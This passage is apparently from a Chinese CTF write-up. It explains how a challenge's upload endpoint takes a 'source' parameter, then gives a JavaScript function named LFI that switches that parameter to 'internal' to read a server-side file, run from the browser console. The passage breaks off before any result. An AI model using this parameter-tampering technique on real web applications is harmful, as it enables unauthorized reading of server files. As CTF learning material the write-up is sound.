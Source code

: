 ### 题目

这道题是一个上传文件，但是跟上传文件那个按钮没太大关系，他上传文件的接口大概是这样

```js
async function uploadContent(e) {
    let n = new FormData();
    a = e.files[0];
    n.append("file", a);
    n.append("source", "external");
    const r = new AbortController();
    try {
    	...
        await fetch("/upload/content", { method: "POST", body: n, signal: r.signal });
      	....
}
```

其实这个`source`参数就很奇怪，他的值为`external`，那是不是我们可以重写该接口包含一个内部文件

```js
async function LFI(inp){
    let fd = new FormData();
    fd.append("file", inp);
    fd.append("source", "internal");
    const ctrl = new AbortController()

    try {
      displayMDCSnackbar("Uploading Video, please wait", 10000)
       let req = await fetch('/upload/content',
        {method: "POST", body: fd, signal: ctrl.signal}).then(resp => resp.json()).then(data => displayMDCSnackbar(data.message, 4000));
       setTimeout(function(){location = ''}, 4000);
    } catch(e) {
      setTimeout(function(){location = ''}, 4000);
      displayMDCSnackbar("Upload Failed: " + e, 4000)
    }
}
```

在`Chrome`的控制台去执行这段代码
